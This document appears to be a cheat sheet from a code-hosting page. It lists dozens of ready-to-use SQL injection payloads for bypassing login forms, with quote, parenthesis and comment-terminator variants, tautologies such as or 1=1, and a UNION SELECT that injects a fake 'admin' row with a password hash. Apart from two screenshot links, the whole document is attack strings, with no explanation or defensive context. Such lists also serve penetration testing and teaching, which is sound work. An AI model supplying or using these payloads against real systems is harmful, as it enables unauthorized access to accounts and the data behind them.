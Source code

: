 # SQL Injection Authentication Bypass (Cheat Sheet)


![](/screenshot/01.jpg)

![](/screenshot/02.png)


``` or 1=1 ```

``` or 1=1-- ``` 

``` or 1=1# ```

``` or 1=1/* ```

``` admin' -- ```

``` admin' # ``` 

``` admin'/* ``` 

``` admin' or '1'='1 ``` 

``` admin' or '1'='1'-- ```

``` admin' or '1'='1'# ``` 

``` admin' or '1'='1'/* ``` 

``` admin'or 1=1 or ''=' ```

``` admin' or 1=1 ```

``` admin' or 1=1-- ```

``` admin' or 1=1# ```

``` admin' or 1=1/* ```

``` admin') or ('1'='1 ```

``` admin') or ('1'='1'-- ```

``` admin') or ('1'='1'# ```

``` admin') or ('1'='1'/* ```

``` admin') or '1'='1 ```

``` admin') or '1'='1'-- ```

``` admin') or '1'='1'# ```

``` admin') or '1'='1'/* ```

``` 1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055 ```

``` admin" -- ```

``` admin" # ```

``` admin"/* ```

``` admin" or "1"="1 ```

``` admin" or "1"="1"-- ```

``` admin" or "1"="1"# ```

``` admin" or "1"="1"/* ```

``` admin"or 1=1 or ""=" ```

``` admin" or 1=1 ```

``` admin" or 1=1-- ```

``` admin" or 1=1# ```

``` admin" or 1=1/* ```

``` admin") or ("1"="1 ```

``` admin") or ("1"="1"-- ```

``` admin") or ("1"="1"# ```

``` admin") or ("1"="1"/* ```

``` admin") or "1"="1 ```

``` admin") or "1"="1"-- ```

``` admin") or "1"="1"# ```

``` admin") or "1"="1"/* ```

``` 1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055 ```
